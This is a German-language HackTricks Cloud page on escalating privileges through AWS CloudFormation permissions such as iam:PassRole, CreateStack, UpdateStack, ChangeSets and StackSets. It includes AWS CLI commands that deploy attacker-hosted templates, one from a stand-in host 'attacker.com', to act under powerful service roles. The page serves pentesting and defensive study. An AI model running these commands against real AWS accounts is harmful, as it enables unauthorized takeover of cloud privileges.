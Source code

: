 # AWS - Cloudformation Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## cloudformation

Für weitere Informationen über cloudformation siehe:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Ein Angreifer mit diesen Berechtigungen **kann Privilegien eskalieren**, indem er einen **CloudFormation-Stack** mit einer benutzerdefinierten Vorlage erstellt, die auf seinem Server gehostet wird, um **Aktionen unter den Berechtigungen einer bestimmten Rolle auszuführen:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
In der folgenden Seite haben Sie ein **Exploitation-Beispiel** mit der zusätzlichen Berechtigung **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potenzielle Auswirkungen:** Privesc auf die angegebene Cloudformation-Service-Rolle.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In diesem Fall können Sie eine **bestehende Cloudformation-Stack** ausnutzen, um sie zu aktualisieren und Privilegien wie im vorherigen Szenario zu eskalieren:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` Berechtigung kann verwendet werden, um **sich selbst die `UpdateStack` Berechtigung** für einen Stack zu geben und den Angriff durchzuführen.

**Potenzielle Auswirkungen:** Privesc auf die angegebene cloudformation-Dienstrolle.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Wenn Sie diese Berechtigung haben, aber **kein `iam:PassRole`**, können Sie dennoch **die verwendeten Stacks aktualisieren** und die **IAM-Rollen, die bereits angehängt sind, missbrauchen**. Überprüfen Sie den vorherigen Abschnitt für ein Exploit-Beispiel (geben Sie einfach keine Rolle in der Aktualisierung an).

Die `cloudformation:SetStackPolicy` Berechtigung kann verwendet werden, um **sich selbst die `UpdateStack` Berechtigung** für einen Stack zu geben und den Angriff durchzuführen.

**Potenzielle Auswirkungen:** Privesc auf die bereits angehängte cloudformation-Dienstrolle.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ein Angreifer mit Berechtigungen, um **eine Rolle zu übergeben und ein ChangeSet zu erstellen & auszuführen**, kann **einen neuen cloudformation-Stack erstellen/aktualisieren und die cloudformation-Dienstrollen missbrauchen**, genau wie bei CreateStack oder UpdateStack.

Der folgende Exploit ist eine **Variation des**[ **CreateStack Exploits**](./#iam-passrole-cloudformation-createstack), die die **ChangeSet-Berechtigungen** verwendet, um einen Stack zu erstellen.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` Berechtigung kann verwendet werden, um **sich selbst `ChangeSet` Berechtigungen** über einen Stack zu geben und den Angriff durchzuführen.

**Potenzielle Auswirkungen:** Privesc zu cloudformation Dienstrollen.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Dies ist wie die vorherige Methode, ohne **IAM-Rollen** zu übergeben, sodass Sie einfach **bereits angehängte** verwenden können, ändern Sie einfach den Parameter:
```
--change-set-type UPDATE
```
**Potenzielle Auswirkungen:** Privesc auf die bereits angehängte Cloudformation-Service-Rolle.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Ein Angreifer könnte diese Berechtigungen missbrauchen, um StackSets zu erstellen/aktualisieren und willkürliche Cloudformation-Rollen auszunutzen.

**Potenzielle Auswirkungen:** Privesc auf Cloudformation-Service-Rollen.

### `cloudformation:UpdateStackSet`

Ein Angreifer könnte diese Berechtigung ohne die passRole-Berechtigung missbrauchen, um StackSets zu aktualisieren und die angehängten Cloudformation-Rollen auszunutzen.

**Potenzielle Auswirkungen:** Privesc auf die angehängten Cloudformation-Rollen.

## Referenzen

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
